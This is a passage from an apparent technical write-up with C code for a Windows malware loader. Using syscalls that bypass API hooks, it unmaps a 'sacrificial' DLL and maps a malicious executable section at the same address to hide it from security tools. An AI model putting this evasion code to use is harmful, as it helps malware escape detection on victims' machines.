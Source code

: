 ```c
                    if (STATUS = ZwFreeVirtualMemory(((HANDLE)(LONG_PTR)-1), &buffermeminfo, 0, MEM_RELEASE, zwFunctions[ZwFreeVirtualMemoryF].SSN, zwFunctions[ZwFreeVirtualMemoryF].sysretAddr) == 0) {

                        return FALSE;
                    }
                    if (STATUS = ZwUnmapViewOfSection(((HANDLE)(LONG_PTR)-1), viewBase, zwFunctions[ZwUnmapViewOfSectionF].SSN, zwFunctions[ZwUnmapViewOfSectionF].sysretAddr) != 0) {

                        // MB(NULL, msg, msg, MB_OK | MB_ICONINFORMATION);//1
                        return FALSE;

                    }
                }
            }
        }
    }
}
```

Sorry, haven’t kept my promise of clean and short. These lines above to enumerate kernel objects till I find the one that belongs to the DLL I loaded.

### Little Swap!

Here I unload the sacrificial DLL and load the nasty one at the same address: 

```c
HANDLE SwapDll(SIZE_T MODULESIZE, PVOID SACDLLBASE) {
    
    HANDLE malHandle = NULL;
    NTSTATUS STATUS = 0x00;
    LARGE_INTEGER sectionSize = { MODULESIZE };

    //createsection
    if (STATUS = ZwCreateSection(&malHandle, SECTION_ALL_ACCESS, NULL, &sectionSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL, zwFunctions[ZwCreateSectionF].SSN, zwFunctions[ZwCreateSectionF].sysretAddr) != 0) {

        return NULL;
    }

    //unamep the sacrificial DLL 
    if (STATUS = ZwUnmapViewOfSection(((HANDLE)(LONG_PTR)-1), SACDLLBASE, zwFunctions[ZwUnmapViewOfSectionF].SSN, zwFunctions[ZwUnmapViewOfSectionF].sysretAddr) != 0) {

        return NULL;

    }
    
    //mapviewofsection of the malicious section at the same address as the sacdll

    if (STATUS = ZwMapViewOfSection(malHandle, ((HANDLE)(LONG_PTR)-1), &SACDLLBASE, NULL, NULL, NULL, &MODULESIZE, ViewUnmap, NULL, PAGE_EXECUTE_READWRITE, zwFunctions[ZwMapViewOfSectionF].SSN, zwFunctions[ZwMapViewOfSectionF].sysretAddr) != 0) {

        return NULL;
    }

    return malHandle;

}
```
